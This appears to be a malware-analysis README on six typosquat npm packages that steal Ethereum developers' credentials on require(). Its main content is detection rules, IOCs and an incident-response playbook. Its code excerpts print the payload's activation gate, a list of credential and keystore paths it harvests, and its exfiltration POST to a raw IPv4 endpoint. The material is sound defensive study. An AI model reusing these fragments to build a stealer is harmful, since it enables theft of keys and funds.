

# EVM/DeFi npm typosquat — six packages by namikazesarada010206 with on-require() activation (Xygeni, May 2026)

## TL;DR

Xygeni disclosed on 6 May 2026 a tightly-windowed npm typosquat cluster: **six packages published under the account `namikazesarada010206`** all stamped version `1.0.0` and uploaded within a **57-second window** on 2026-05-06 between 01:38:44 and 01:39:48 UTC — `viem-core`, `viem-utils-core`, `hardhat-core-utils`, `evm-utils`, `foundry-utils`, `web3-utils-core`. The attack pattern is **brand-adjacency squat** rather than classic typosquat: plausible suffixes (`-core`, `-utils`, `-utils-core`) on top of the dominant Ethereum-developer library names (Viem, Hardhat, Foundry, Web3.js, EVM). The activation primitive is the differentiator — **on `require()` not on `postinstall`** — so `npm install --ignore-scripts` does **not** mitigate. The `telemetry.js` payload (byte-identical SHA-256 `71426e93...5bff1` in all six packages) waits for an activation gate of `ALCHEMY_API_KEY`, `INFURA_KEY`, `PRIVATE_KEY`, `MNEMONIC`, `DEPLOYER_KEY` env vars or the presence of `~/.foundry`, `hardhat.config.*`, `foundry.toml`, `brownie-config.yaml`, then harvests SSH keys, AWS credentials, npm tokens, Foundry / Ethereum / Brownie keystores and any `.env*` file in the current working tree (`shallow-recursive`). Loot is encrypted with **AES-256-GCM** using a hardcoded passphrase and POSTed to a **raw IPv4 endpoint** `76.13.37.80/ingest` with `NODE_TLS_REJECT_UNAUTHORIZED=0` — no domain, no retry, no fallback. Persistence is **none on the host**; the persistence is **on-chain** because the operator drains wallets and contracts using the stolen private keys. The pedagogical mark: if `DEPLOYER_KEY` or `MNEMONIC` exfiltrated, **move funds on-chain first, clean the host second**.

## Attribution and confidence

- **Cluster (Xygeni):** **`namikazesarada010206`** — npm account that published all six packages from a single laptop / single residential IP block. No public link to a named e-crime crew or to state-nexus activity.
- **GitHub linkage:** every package's `repository.url` points at `github.com/harunosakura030303-maker/evmchain-config`. The npm publisher email is `namikazesarada010206@gmail.com`.
- **Confidence:**
  - **high** on the technical attribution — telemetry.js is byte-identical (single SHA-256 across all six tarballs), the npm account is the single common publisher, the GitHub repo is the single common reference.
  - **low** on the operator's identity. The handles are throw-away; the cluster fits the broader 2026 pattern of **credential-first opportunistic supply-chain** that includes Mini Shai-Hulud (TeamPCP) and DevTap, but no shared C2, no shared tooling, no shared infrastructure with those clusters is currently public.
- **Vendor that discovered:** Xygeni (primary disclosure 6 May 2026). The npm registry removed the packages after disclosure but they were live long enough to surface in `npm` mirror caches and in CI build artefacts.
- **Victimology:** Ethereum / Solidity developers and DevOps engineers running Foundry / Hardhat / Brownie / Web3.js workflows on Linux / macOS / Windows laptops or in CI runners. The activation gate matches the cwd / env shape of a developer working on a DeFi project; the loot list matches the artefacts those workflows produce.
- **Genealogy / link with previous repo cases:** **Day 10 (QLNX Quasar Linux RAT)** captures the **upstream cause** that feeds clusters like this one — credential-first developer-box compromise. QLNX exfiltrates `~/.npmrc`; that token lets a different operator publish typosquat packages like the six here. Treat the two cases as the two ends of the same supply-chain kill chain.

## Kill chain — summary table

| Stage | MITRE | Detail |
|---|---|---|
| Resource Development | T1583.001, T1583.006, T1587.001, T1608.001 | Operator registers the npm account + a residual GitHub account, stages identical telemetry.js across six packages, prepares the C2 IP |
| Initial Access | T1195.002 | Victim runs `npm install <package>` — typosquat / brand-adjacency squat into the dependency tree |
| Execution | T1059.007, T1129 | `require()` of any of the six packages loads `telemetry.js` — **NOT postinstall**; `--ignore-scripts` does not mitigate |
| Defense Evasion | T1027, T1480, T1140 | AES-256-GCM exfil envelope + activation env-var / file gate (only runs in developer cwd shape) |
| Discovery | T1083, T1518 | Enumerate `~/.foundry`, `hardhat.config.*`, `foundry.toml`, `brownie-config.yaml`, `.env*` shallow-recursive |
| Credential Access | T1552.001, T1552.004, T1555.005, T1539 | SSH private keys, AWS credentials, npm tokens, Foundry / Ethereum / Brownie keystores, browser session cookies |
| Collection | T1005 | Bundle creds + env into JSON |
| Command and Control | T1071.001, T1573.001 | HTTP POST `/ingest` to raw IPv4 `76.13.37.80` with `NODE_TLS_REJECT_UNAUTHORIZED=0` |
| Exfiltration | T1041 | Single-shot exfil over the C2; no retry, no fallback, no persistence on host |
| Impact | T1657 | On-chain — operator drains wallets and signs contracts with stolen keys |



The diagram has the developer host on the left (Foundry / Hardhat / Brownie cwd + the harvest list) and the operator's raw-IPv4 C2 endpoint on the right. The activation gate on env vars + config files is the most operationally important stage — it filters non-developer hosts out, so the operator only spends keystroke time on victims that own keys worth stealing. Detection anchors at the bottom map to the two Sigma rules (credential-read burst from node / ts-node; node outbound to raw IPv4 / no SNI), two KQL rules (Defender XDR credential burst on dev host; Sentinel `node` first-seen IPv4), the YARA rule on telemetry.js and the Suricata rule on the known C2 plus TLS-no-SNI patterns.

## Stage-by-stage detail

### Resource Development

The operator creates the npm account `namikazesarada010206` and the GitHub mirror `harunosakura030303-maker/evmchain-config`. The six packages are prepared with a single byte-identical `telemetry.js` and individualised `package.json` references. The C2 IP `76.13.37.80` is staged with a minimal HTTP responder that accepts POST `/ingest`. MITRE: `T1583.001`, `T1583.006`, `T1587.001`, `T1608.001`.

### Initial Access — brand-adjacency squat

The names are plausibly real packages a developer might `npm install` while building a DeFi tool:

| Malicious package | Real reference |
|---|---|
| `viem-core@1.0.0` | `viem` (the popular EVM TypeScript SDK) |
| `viem-utils-core@1.0.0` | `viem` ecosystem helper naming |
| `hardhat-core-utils@1.0.0` | `hardhat` framework |
| `evm-utils@1.0.0` | namespace revival — legitimate `0.0.1` from 2019 |
| `foundry-utils@1.0.0` | Foundry toolchain |
| `web3-utils-core@1.0.0` | `web3.js` ecosystem |

This is **brand-adjacency squat** — the names are plausible suffix variants of real libraries, not character-flip typos. MITRE: `T1195.002`.

### Execution — on-`require()` activation

This is the critical design choice. Most npm typosquat detections key off `postinstall` events. This cluster's payload runs only when an application **`require()`s** one of the packages — meaning:

- `npm install --ignore-scripts` does **not** mitigate. The package goes in clean. The payload only fires when the developer's actual code (or a transitive dependency) `require()`s the package.
- Detection has to look at `node`'s runtime behaviour — *what files does this `node` child read; what IPs does it talk to* — not at the install hooks.

```javascript
// telemetry.js — entry primitive
const env = process.env;
const cwd = process.cwd();
const gate = ['ALCHEMY_API_KEY','INFURA_KEY','PRIVATE_KEY','MNEMONIC','DEPLOYER_KEY']
                .some(k => env[k]) ||
             ['hardhat.config.js','hardhat.config.ts','foundry.toml','brownie-config.yaml']
                .some(f => existsSync(join(cwd, f))) ||
             existsSync(join(homedir(), '.foundry'));
if (!gate) return; // only run on developer hosts
```

MITRE: `T1059.007`, `T1129`.

### Defense Evasion — activation gate + envelope

The activation gate (above) filters out non-developer hosts. The exfil envelope is AES-256-GCM with a hardcoded 32-byte passphrase compiled into `telemetry.js`. The wire payload is a base64 string assigned to the `d` parameter of a JSON POST body. The `NODE_TLS_REJECT_UNAUTHORIZED=0` setting deactivates TLS validation, which is consistent with the raw-IPv4 endpoint — no cert hygiene. MITRE: `T1027`, `T1480`, `T1140`.

### Discovery + Credential Access

```javascript
// Files harvested (shallow-recursive from cwd):
//   .env, .env.local, .env.production, .env.*
//   any file matching /\.env(\..+)?$/
// Plus, in $HOME:
//   ~/.ssh/id_rsa, ~/.ssh/id_ed25519, ~/.ssh/id_ecdsa, ~/.ssh/config
//   ~/.aws/credentials, ~/.aws/config
//   ~/.npmrc, ~/.yarnrc, ~/.pnpmfile.cjs
//   ~/.foundry/keystores/*.json
//   ~/.ethereum/keystore/*
//   ~/.brownie/accounts/*.json
//   Process env vars matching /TOKEN|SECRET|KEY|PASSWORD|AUTH|PRIVATE|SEED|MNEMONIC|AWS|NPM|DEPLOY/
```

MITRE: `T1083`, `T1518`, `T1552.001`, `T1552.004`, `T1555.005`, `T1539`.

### Collection + Command and Control + Exfiltration

The harvested data is serialised to JSON, AES-256-GCM-encrypted with the hardcoded passphrase, base64-encoded, and POSTed:

```http
POST /ingest HTTP/1.1
Host: 76.13.37.80
Content-Type: application/json
User-Agent: node-fetch/1.0

{"d":"<base64-AES-256-GCM(JSON)>"}
```

No retry, no fallback domain, no persistence. **Single-shot exfil.** MITRE: `T1005`, `T1071.001`, `T1573.001`, `T1041`.

### Impact — on-chain drain

The operator has no need for host persistence — they hold the keys. The actual impact is **off-host**:

- Use `MNEMONIC` / `DEPLOYER_KEY` to sign transactions that drain victim wallets and DAO treasuries.
- Use `~/.aws/credentials` to take over related cloud accounts.
- Use `~/.npmrc` token to publish further typosquat packages from the victim's own npm identity.
- Use `~/.ssh/id_*` for lateral pivot into the victim's other developer hosts.

MITRE: `T1657`.

## RE notes

| Component | SHA-256 | Lang / build | Notes |
|---|---|---|---|
| `telemetry.js` (byte-identical across all six tarballs) | `71426e93cb6143052d5aeeca920850f8a0343c95bc65aab9a15145848cc5bff1` | JavaScript (Node) | Activation gate on env vars + config files; AES-256-GCM exfil envelope with hardcoded passphrase; raw IPv4 C2 |

Tarball SHA-1 fingerprints (from `registry.npmjs.org`):

- `viem-core@1.0.0`         `fc084c815d2c66b608a5564dbf8ee3f93d8eeaf9`
- `viem-utils-core@1.0.0`   `1783c75aca241253d0a58ab9aa43080d4475f5ec`
- `hardhat-core-utils@1.0.0` `9a863a39453db1cf355a918475a5b7482368d080`
- `evm-utils@1.0.0`         `7d29993de14f8707b9ceea69ed8eb24b5b8e4f23` (namespace revival of legitimate 0.0.1 from 2019)
- `foundry-utils@1.0.0`     `a078437cd31446df4e2b6e051776145221ed6247`
- `web3-utils-core@1.0.0`   `9b8cdc6228e6ae4524bd81cbfbd46e96dad46330`

Operational pointers:

- **Anchor YARA on the `NODE_TLS_REJECT_UNAUTHORIZED` flag plus the activation-gate symbol set** plus the AES-256-GCM constants. The C2 IP rotates; the symbol set is harder to change without rewriting the payload.
- **The on-`require()` activation means the install event is silent.** Anything you build that looks for `postinstall` script execution will miss this family.
- **`evm-utils` namespace revival** is a useful watchlist pattern for the future: packages that were dormant on 1.0.0+ versions for years, then suddenly republished, are high-suspicion.

## Detection strategy

### Telemetry that matters

- **Defender XDR `DeviceFileEvents`** — read events for `~/.aws/credentials`, `~/.ssh/id_*`, `~/.npmrc`, `~/.foundry/keystores/*`, `~/.ethereum/keystore/*`, `~/.brownie/accounts/*`, `.env*` from a `node` / `ts-node` initiating process within a tight window.
- **Defender XDR `DeviceNetworkEvents`** — `node` outbound to a raw IPv4 literal (not a DNS-resolved hostname); first-seen relative to a 30-day baseline.
- **Sysmon EID 3** (Linux / macOS / Windows) for `node` to public IPv4 with no preceding DNS resolution from the same PID.
- **`npm install` / `pnpm install` / `yarn add` audit logs** — first-seen package install of any of the six listed under `iocs.csv`.
- **Suricata** — TLS-no-SNI to a public IPv4 (with `dst_addr` on the known C2) from the developer VLAN.

### Detection coverage

| Engine | File | Logic |
|---|---|---|
| Sigma | [`sigma/dev_secret_read_burst_from_node.yml`](./sigma/dev_secret_read_burst_from_node.yml) | `node` / `ts-node` reads ≥3 credential files (SSH key + AWS cred + npm token + Foundry keystore + .env*) within 60 seconds |
| Sigma | [`sigma/node_outbound_ipv4_no_sni.yml`](./sigma/node_outbound_ipv4_no_sni.yml) | `node` outbound to a public IPv4 with no preceding DNS resolution + TLS handshake missing or `SNI=""` |
| KQL (Defender XDR) | [`kql/defender_credential_burst_dev_host.kql`](./kql/defender_credential_burst_dev_host.kql) | DeviceFileEvents — credential-file read burst from `node` on a host that has Foundry / Hardhat / Brownie configs |
| KQL (Sentinel) | [`kql/sentinel_node_outbound_first_seen_ipv4.kql`](./kql/sentinel_node_outbound_first_seen_ipv4.kql) | First-seen `node` outbound to a public IPv4 (30-day baseline) |
| YARA | [`yara/evmdefi_npm_typosquat_telemetry.yar`](./yara/evmdefi_npm_typosquat_telemetry.yar) | telemetry.js heuristic — env-gate + `NODE_TLS_REJECT_UNAUTHORIZED=0` + AES-256-GCM constants + raw IPv4 + paths |
| Suricata | [`suricata/tls_no_sni_ipv4_literal.rules`](./suricata/tls_no_sni_ipv4_literal.rules) | sids — known C2 `76.13.37.80` + TLS-no-SNI to public IPv4 from developer VLAN + HTTP POST `/ingest` with AES-GCM body shape |
| Hunt | [`hunts/peak_h1_h2.md`](./hunts/peak_h1_h2.md) | PEAK H1 "Builder bait" + H2 "IP-only egress dev tooling" |

### Threat hunting hypotheses

- **H1 — "Builder bait" first-seen install.** Any developer host that pulled one of the six known package names in the last 30 days. Cross-reference `package-lock.json`, `pnpm-lock.yaml`, `yarn.lock` from CI build artefacts.
- **H2 — IP-only egress from dev tooling.** Any `node` / `ts-node` / `bun` outbound TCP to a public IPv4 with no DNS resolution from the same PID within 60 seconds. Expected benign: pinned IP for an internal CI registry. Suspect: a developer laptop on a corporate VPN talking to an unknown public IPv4 from `node`.
- **H3 — Dormant package republication.** Pull the npm registry timeline for every dependency in your repo. Packages that went 18+ months without an update and then republished a 1.0.0+ version in 2026 are watchlist-grade.

## Incident response playbook

### First 60 minutes (triage)

1. **If `MNEMONIC` / `DEPLOYER_KEY` / wallet private keys are in scope: move funds on-chain first.** Transfer balances to a fresh wallet derived from a fresh seed on a clean device. Hash the wallets that may have been touched; document for the post-incident report.
2. **Identify the install path.** Inspect `package-lock.json` / `pnpm-lock.yaml` / `yarn.lock` on the developer host and in CI build artefacts. Any of the six listed packages → presumed-compromised host.
3. **Rotate credentials in this order:** (a) AWS keys; (b) npm tokens (and audit recent publish events); (c) GitHub PATs; (d) SSH keys; (e) any `.env*` secret (cloud API keys, database passwords, third-party tokens).
4. **Block egress** to `76.13.37.80` at the corporate perimeter and the developer-VPN egress.
5. **Capture host artefacts** — `pnpm-store` / `node_modules` snapshot, `~/.npm/_cacache` for the package tarballs, `~/.bash_history` / `~/.zsh_history`.
6. **Audit npm publishes from the user's npm identity** for the last 30 days — any publication that does not match the user's intent is a red flag for downstream typosquat seeding.
7. **Audit AWS CloudTrail / GitHub Audit Log** for the last 30 days for any anomalous activity by the rotated identities.

### Artifacts to collect

| Artifact | Path | Tool | Why it matters |
|---|---|---|---|
| Lockfile | `package-lock.json` / `pnpm-lock.yaml` / `yarn.lock` | manual | Confirms whether any of the six packages landed |
| Package tarball | `~/.npm/_cacache/content-v2/` or `~/.pnpm-store/v3/files/` | `find` | Captures the bad package binary for IR evidence |
| Shell history | `~/.bash_history`, `~/.zsh_history` | manual | Confirms `npm install` command timing |
| Node child process tree | live | `ps -ef`, `pstree -p`, EDR | Identifies the parent of the `node` that ran the payload |
| Credential files at risk | `~/.ssh/`, `~/.aws/`, `~/.foundry/`, `~/.ethereum/`, `~/.brownie/`, `~/.npmrc`, `.env*` | manual | Determines exfil scope |
| Defender / EDR telemetry | tenant | KQL export | Network egress + file-read burst confirmation |
| CloudTrail / GitHub Audit | tenant | KQL / API export | Downstream identity abuse timeline |

### IR queries and commands

```bash
# Find any of the six packages in any lockfile across a repo tree
grep -REn \
  'viem-core|viem-utils-core|hardhat-core-utils|evm-utils|foundry-utils|web3-utils-core' \
  --include='package*.json' --include='*lock*' /path/to/repos/

# Hash the offending tarball in the cache
sha1sum ~/.npm/_cacache/content-v2/sha512/*/* 2>/dev/null | head

# Rotate AWS creds in IAM (after generating new keys)
aws iam list-access-keys --user-name <username>
aws iam delete-access-key --access-key-id <OLD_AKID> --user-name <username>
```

```kql
// Defender XDR — credential burst from node on a dev host
let candidates = pack_array(
    ".aws/credentials", ".ssh/id_rsa", ".ssh/id_ed25519", ".npmrc",
    ".foundry/keystores", ".ethereum/keystore", ".brownie/accounts",
    ".env", ".env.local", ".env.production");
DeviceFileEvents
| where Timestamp > ago(7d)
| where ActionType in ("FileAccessed","FileOpened","FileRead")
| where InitiatingProcessFileName has_any ("node","ts-node","bun")
| extend FullPath = strcat(FolderPath, "/", FileName)
| where FullPath has_any (candidates)
| summarize Hits = count(), Files = make_set(FullPath, 50),
            First = min(Timestamp), Last = max(Timestamp)
    by DeviceName, AccountName, InitiatingProcessFileName
| where Hits >= 3 and (Last - First) < 60s
```

```kql
// Sentinel — first-seen node outbound to public IPv4
let baseline =
    DeviceNetworkEvents
    | where Timestamp between (ago(30d) .. ago(1d))
    | where InitiatingProcessFileName == "node"
    | summarize SeenIPs = make_set(RemoteIP) by DeviceId;
DeviceNetworkEvents
| where Timestamp > ago(24h)
| where InitiatingProcessFileName == "node"
| where not(ipv4_is_private(RemoteIP))
| join kind=leftouter baseline on DeviceId
| where not(RemoteIP in (SeenIPs))
| project Timestamp, DeviceName, AccountName,
          RemoteIP, RemotePort, InitiatingProcessCommandLine
```

### Containment, eradication, recovery

- **Containment.** Block egress to `76.13.37.80`; quarantine the developer host; suspend the npm publish token for the user.
- **Eradication.** Re-image the developer host (re-image, not clean — credential exfil already happened, the host is forensic evidence). Reinstall Foundry / Hardhat / Brownie on the fresh host. Reinstall dependencies with a clean lockfile that excludes the six known-bad packages.
- **Recovery.** Stand up a fresh wallet for the developer with a fresh seed phrase on an air-gapped device. Re-issue AWS keys + npm tokens + GitHub PATs. Audit the previous 30 days of activity under those identities and document for the post-incident report.
- **What NOT to do.**
  - Do **not** clean a host that exfiltrated developer secrets — re-image.
  - Do **not** rotate keys on the same host that may still have the payload running.
  - Do **not** wait for the host clean-up before moving funds on-chain. Funds first, host second.
  - Do **not** trust `npm install --ignore-scripts` as a mitigation — on-`require()` activation bypasses it.

### Recovery validation

- Fresh developer host with a clean Node toolchain and a lockfile that excludes the six known-bad packages.
- All rotated keys (AWS, npm, GitHub, SSH) are confirmed in service; the old keys no longer authorise anything.
- The wallet's funds have been moved on-chain to a fresh address derived from a fresh seed.
- 30 days of CloudTrail / GitHub Audit / Defender XDR telemetry shows no further use of the rotated credentials.
- npm publish audit shows no anomalous publications from the user's identity during the dwell window.

## IOCs

| Type | Value | Context | Confidence | Source |
|---|---|---|---|---|
| ipv4 | `76.13.37.80` | Raw IPv4 C2 endpoint (POST `/ingest`) | high | Xygeni 6 May 2026 |
| sha256 | `71426e93cb6143052d5aeeca920850f8a0343c95bc65aab9a15145848cc5bff1` | telemetry.js byte-identical across all six packages | high | Xygeni 6 May 2026 |
| sha1 | `fc084c815d2c66b608a5564dbf8ee3f93d8eeaf9` | Tarball shasum `viem-core@1.0.0` | high | registry.npmjs.org |
| sha1 | `1783c75aca241253d0a58ab9aa43080d4475f5ec` | Tarball shasum `viem-utils-core@1.0.0` | high | registry.npmjs.org |
| sha1 | `9a863a39453db1cf355a918475a5b7482368d080` | Tarball shasum `hardhat-core-utils@1.0.0` | high | registry.npmjs.org |
| sha1 | `7d29993de14f8707b9ceea69ed8eb24b5b8e4f23` | Tarball shasum `evm-utils@1.0.0` (namespace revival) | high | registry.npmjs.org |
| sha1 | `a078437cd31446df4e2b6e051776145221ed6247` | Tarball shasum `foundry-utils@1.0.0` | high | registry.npmjs.org |
| sha1 | `9b8cdc6228e6ae4524bd81cbfbd46e96dad46330` | Tarball shasum `web3-utils-core@1.0.0` | high | registry.npmjs.org |
| npm-package | `viem-core@1.0.0` | Published 2026-05-06T01:38:44Z by namikazesarada010206 | high | registry.npmjs.org |
| npm-package | `viem-utils-core@1.0.0` | Published 2026-05-06T01:38:53Z | high | registry.npmjs.org |
| npm-package | `hardhat-core-utils@1.0.0` | Published 2026-05-06T01:39:48Z | high | registry.npmjs.org |
| npm-package | `evm-utils@1.0.0` | Namespace revival of legitimate 0.0.1 from 2019 | high | registry.npmjs.org |
| npm-package | `foundry-utils@1.0.0` | Published 2026-05-06T01:39:33Z | high | registry.npmjs.org |
| npm-package | `web3-utils-core@1.0.0` | Published 2026-05-06T01:39:42Z | high | registry.npmjs.org |
| npm-account | `namikazesarada010206` | Publisher of all six malicious packages | high | registry.npmjs.org |
| email | `namikazesarada010206@gmail.com` | npm publisher email | high | registry.npmjs.org |
| github-account | `harunosakura030303-maker` | Linked GitHub account in package.json `repository.url` | high | registry.npmjs.org |
| github-repo | `harunosakura030303-maker/evmchain-config` | Repo declared in `repository.url` across all six packages | high | registry.npmjs.org |

Full list lives in [`iocs.csv`](./iocs.csv).

## Secondary findings

- **DevTap typosquat (Xygeni 1-3 May 2026).** Six infrastructure-sounding packages by `user0001` (`tanvisoul9@gmail.com`): `centralogger`, `dom-utils-lite`, `node-fetch-lite`, `connector-agent`, `node-gyp-runtime`, `node-env-resolve`. `node-env-resolve@1.0.7-1.0.8` confirmed malicious — **postinstall** writes `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` -> `wscript.exe` -> VBS stub -> Node agent. **Different vector class** to today's case (postinstall vs on-require) — combine policies in CI to cover both surfaces.
- **CVE-2026-0300 PAN-OS Captive Portal RCE root.** PAN advisory + CISA KEV added 6 May 2026. CVSS 9.3 (internet-facing) / 8.7 (internal). Limited exploitation in-the-wild *before* the patch. First fix ETA 13 May 2026; threat-prevention signature available since 5 May 2026 for licensed customers. Mitigation: portal only on trusted zones, or disable.
- **CVE-2026-31431 Linux kernel "Copy Fail".** Active reminder. FCEB deadline 15 May 2026. Kernel-side cleanup that combines well with developer-host hardening.

## Pedagogical anchors

- **`--ignore-scripts` is not a defence in 2026.** On-`require()` activation routes around it. Behavioural detection on the `node` runtime is the durable control.
- **Brand-adjacency squat is harder to baseline than typosquat.** "Real package + plausible suffix" looks like a normal ecosystem package. Add `npm view <package> time.created` checks to CI for any first-seen dependency.
- **Move funds on-chain first, clean the host second.** If `MNEMONIC` / `DEPLOYER_KEY` was harvested, the operator's clock starts before yours. Re-imaging the laptop does not slow the on-chain drain.
- **Dormant namespace republication is a watchlist pattern.** `evm-utils@0.0.1` from 2019 jumping to `1.0.0` in 2026 from a different publisher is high-suspicion regardless of whether the new code looks clean.
- **The QLNX (Day 10) → npm typosquat (this day) kill chain is structurally complete in 2026.** QLNX exfiltrates `~/.npmrc`; that token publishes packages like the six in this folder. Detect QLNX-class implants on developer boxes, or the typosquat cluster on the registry — preferably both.

## What's in this folder

| File | Purpose |
|---|---|
| [`README.md`](./README.md) | This case write-up |
| [`kill_chain.svg`](./kill_chain.svg) | EVM / DeFi npm typosquat kill-chain diagram, light / dark adaptive |
| [`iocs.csv`](./iocs.csv) | Machine-readable IOC list |
| [`sigma/dev_secret_read_burst_from_node.yml`](./sigma/dev_secret_read_burst_from_node.yml) | Sigma — credential-file read burst from `node` / `ts-node` |
| [`sigma/node_outbound_ipv4_no_sni.yml`](./sigma/node_outbound_ipv4_no_sni.yml) | Sigma — `node` outbound to a raw IPv4 / TLS-no-SNI |
| [`kql/defender_credential_burst_dev_host.kql`](./kql/defender_credential_burst_dev_host.kql) | KQL — Defender XDR credential burst on a dev host |
| [`kql/sentinel_node_outbound_first_seen_ipv4.kql`](./kql/sentinel_node_outbound_first_seen_ipv4.kql) | KQL — Sentinel `node` first-seen outbound to public IPv4 |
| [`yara/evmdefi_npm_typosquat_telemetry.yar`](./yara/evmdefi_npm_typosquat_telemetry.yar) | YARA — telemetry.js heuristic + known-hash anchor |
| [`suricata/tls_no_sni_ipv4_literal.rules`](./suricata/tls_no_sni_ipv4_literal.rules) | Suricata 7.x — known C2 + TLS-no-SNI to public IPv4 + AES-GCM body shape |
| [`hunts/peak_h1_h2.md`](./hunts/peak_h1_h2.md) | PEAK H1 "Builder bait" + H2 "IP-only egress dev tooling" |

## Sources

- [Xygeni — EVM/DeFi npm typosquat by namikazesarada010206 (6 May 2026)](https://xygeni.io/blog/evm-defi-npm-typosquat-namikazesarada-2026/)
- [npm Registry — Publish timeline for the six packages](https://registry.npmjs.org/)
- [Socket — Brand-adjacency squat detection patterns](https://socket.dev/blog/brand-adjacency-squat-detection)
- [Xygeni — DevTap typosquat (1-3 May 2026)](https://xygeni.io/blog/devtap-typosquat-2026/)
- [CISA KEV — CVE-2026-0300 PAN-OS Captive Portal RCE (6 May 2026)](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)
- [Palo Alto Networks PSIRT — CVE-2026-0300 advisory](https://security.paloaltonetworks.com/CVE-2026-0300)
- [MITRE ATT&CK — T1195.002 Compromise Software Supply Chain](https://attack.mitre.org/techniques/T1195/002/)
- [MITRE ATT&CK — T1552 Unsecured Credentials](https://attack.mitre.org/techniques/T1552/)
- [MITRE ATT&CK — T1480 Execution Guardrails](https://attack.mitre.org/techniques/T1480/)
